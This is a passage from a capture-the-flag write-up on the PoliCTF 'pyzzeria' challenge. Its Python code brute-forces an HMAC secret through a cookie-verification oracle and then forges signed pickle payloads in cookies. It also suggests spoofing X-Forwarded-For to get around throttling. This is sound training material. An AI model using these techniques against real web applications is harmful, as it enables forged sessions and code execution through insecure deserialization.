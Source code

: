 ```python
		req = requests.post("http://pyzzeria.chall.polictf.it/pyzzeria", headers=headers, data=data)
		cookiess = req.cookies.get("pyzza")

		t,obj,hhash = cookiess.decode("hex").split(":")
		plain = obj.decode("base64")
		enc = plain.encode("base64")

		t = "S"

		cookies = requests.cookies.RequestsCookieJar()
		cookies.set("pyzza", ("%s:%s:%s"%(t,enc,hhash)).encode("hex"))
		cookies.set("AWSALB", "BwDMMN42LQAVq+oEpFKAxk4grO5IuF/BnCbfVs6RUIsYPtSwZIVnj2ZasIdfhQOSND3cLn+o+yExUPSyYYbHLMzrFcUvydrBjwSkaJLJxrpjdtXMKCFNj5CsMouV")


		time.sleep(5)
		resp = requests.post("http://pyzzeria.chall.polictf.it/oven",  data={"order_code": code}, headers=headers,  cookies=cookies)
		respText = resp.text

		if "with extra pineapple" in respText:
			print "***** found: " + code
			found = ch + found
			foundChar = True
			break
		if "Sorry, order verification failed" in respText:
			continue
		else:
			print respText
			print "something went wrong"
			print "code: " + code

	if not foundChar:
		print "no go :("
		break
```

At this stage I didn't realise that the connection throttling could be bypassed by modifying the `X-Forwarded-For` header, so I just paused for 5 seconds between each request and left it running. After a while it had found `0y3y0y3!` as the end of the secret so I changed the seach charaters to just `0y3` and it finished much faster. We now have the secret key `y3y0y3y0y3y0y3!`


## Part 4 - Putting it all together

Now lets see if we can sign our own payloads with the HMAC key:

```python
import hashlib
import hmac
import requests
import pickle
import pyzzastuffed

s = pyzzastuffed.PyzzaStuffed("1234", "sausage")
payload = pickle.dumps(s)

enc = payload.encode("base64")
calcHash = hmac.new(secret, msg=payload, digestmod=hashlib.sha256).hexdigest()

cookies = requests.cookies.RequestsCookieJar()
cookies.set("pyzza", ("S:%s:%s"%(enc,calcHash)).encode("hex"))

```